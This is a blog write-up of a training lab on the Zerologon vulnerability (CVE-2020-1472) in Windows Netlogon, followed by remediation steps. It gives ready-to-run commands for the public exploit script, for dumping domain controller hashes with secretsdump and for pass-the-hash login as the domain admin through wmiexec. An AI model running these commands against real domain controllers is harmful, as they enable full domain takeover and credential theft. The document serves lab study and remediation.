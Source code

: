 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

**About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

**Exploitatable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

**Exploitation Walkthrough**

> What do you need?\
> Impacket — to capture password hashes and dump them\
> Windows 10 OS (on which the vulnerable service exists)\
> Windows 10 VM — to perform the exploit on\
> RangeForce’s ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github\
Step to install:-

> git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC\
> IP address: 192.168.0.4

> Syntax of exploit command:-\
> ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> ./cve-2020–1472-exploit.py -n DC -t 192.168.0.4

![](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

**What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string &#x20;

**Next objective-**dump password hashes from the Domain Controller\
\


> Components required:-

> Domain Controller name\
> NetBios Name\
> IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- \
> python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\$@IP>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\\$@192.168.0.4

![](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

\
This leads to the dumping of around 60 password hashes:-

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-\
\


> python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/ContosoAdmin@192.168.0.4

We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

**Section 2 — Remediation from the Vulnerability**

How?&#x20;

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

**(Manual Password Restore) — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL\
> Why parse? — To see where accounts are mapped to and to gain other information

![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> ./reinstall\_original\_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Conclusion:-

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Connect with me on LinkedIn — [https://www.linkedin.com/in/noel--varghese](https://www.linkedin.com/in/noel--varghese)

Thank you for the time taken to devour this red team blog entry.
